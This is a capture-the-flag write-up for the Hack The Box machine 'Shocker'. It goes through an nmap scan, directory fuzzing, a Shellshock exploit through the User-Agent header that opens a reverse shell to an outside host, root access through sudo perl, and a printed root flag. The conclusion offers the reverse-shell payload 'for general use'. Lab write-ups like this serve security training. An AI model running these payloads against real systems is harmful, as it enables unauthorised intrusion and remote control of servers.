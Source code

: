 ## Information

| Property     | Value                       |
|--------------|-----------------------------|
| **Name**     |  Shocker |
| **IP Address**| 10.10.10.56        |
| **OS**       |   Linux      |
| **Difficulty**| Easy   |

## Enumeration
### Nmap Scan
```bash
nmap -sC -sV -oN nmap_scan.txt -Pn 
```

```
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Initial Access
### Port [80] - [Web Server]

Fuzzing directories using Ffuf revealed the presence of the cgi-bin folder.
#### FFUF Alias for web content discovery: 

```bash
alias ffuf_web_medium='_ffuf_web_medium() { ffuf -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -s -u http://$1/FUZZ/; }; _ffuf_web_medium'
```

For the content of the cgi-bin direcotory, using the same wordlists with multiple extensions like .sh or .cgi, this will reveal the user.sh script. 

#### Vulnerability Exploited

Shellshock vulnerability affecting the cgi-bin exploited by sending a crafted user-agent header: 
```bash
curl -H "user-agent: () { :; }; echo; /bin/sh -i >& /dev/tcp/10.10.14.5/1337 0>&1" http://shocker.htb/cgi-bin/user.sh
```
#### Exploitation Steps

Setting up a listener using [pwncat-cs](https://github.com/calebstewart/pwncat) and sending the malicious request gives us a shell back. 

```bash
[09:34:09] Welcome to pwncat 🐈!                         __main__.py:164
[09:43:50] received connection from 10.10.10.56:51198                         bind.py:84
[09:43:51] 0.0.0.0:1337: upgrading from /bin/dash to /bin/bash            manager.py:957
[09:43:52] 10.10.10.56:51198: registered new host w/ db                   manager.py:957
(local) pwncat$ back
(remote) shelly@Shocker:/usr/lib/cgi-bin$ id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
(remote) shelly@Shocker:/usr/lib/cgi-bin$ 
```

### User Access

Content of user.sh: 

```bash
(remote) shelly@Shocker:/usr/lib/cgi-bin$ cat user.sh
#!/bin/bash
echo
echo "Content-Type: text/plain"
echo ""
echo "Just an uptime test script"
echo
uptime
echo
echo
(remote) shelly@Shocker:/usr/lib/cgi-bin$ 
```

#### User Flag

- 
## Privilege Escalation

User ``shocker``  is able to run perl with sudo: 

```sh
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Executing perl as root using the following gtfo command: 

```bash
sudo perl -e 'exec "/bin/sh";'
```

#### Root Flag

49eb3457c5f0411a37a9f907db03d92d
## Conclusion

ShellShock Payload for general use: 
```bash
curl -H "user-agent: () { :; }; echo; /bin/sh -i >& /dev/tcp/10.10.14.5/1337 0>&1" 
```
## Additional Notes

0xdf talked about why the trailing slash is needed when requesting the /cgi-bin directory:

From: https://0xdf.gitlab.io/2021/05/25/htb-shocker.html#shellshock-chained-commands

The mystery unlocked when I started looking at the other Apache config files, specifically `/etc/apache2/conf-enabled/serve-cgi-bin.conf`:

```
<IfModule mod_alias.c>
        <IfModule mod_cgi.c>
                Define ENABLE_USR_LIB_CGI_BIN
        </IfModule>

        <IfModule mod_cgid.c>
                Define ENABLE_USR_LIB_CGI_BIN
        </IfModule>

        <IfDefine ENABLE_USR_LIB_CGI_BIN>
                ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
                <Directory "/usr/lib/cgi-bin">
                        AllowOverride None
                        Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
                        Require all granted
                </Directory>
        </IfDefine>
</IfModule>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

The line `ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/` will match on requests to `/cgi-bin/` and alias them into the `/usr/lib/cgi-bin/` directory. But it only matches if there’s a trailing slash!

To test this, I removed the trailing slash, leaving:

```
ScriptAlias /cgi-bin /usr/lib/cgi-bin/
```

## Resources
https://0xdf.gitlab.io/2021/05/25/htb-shocker.html#shellshock-chained-commands

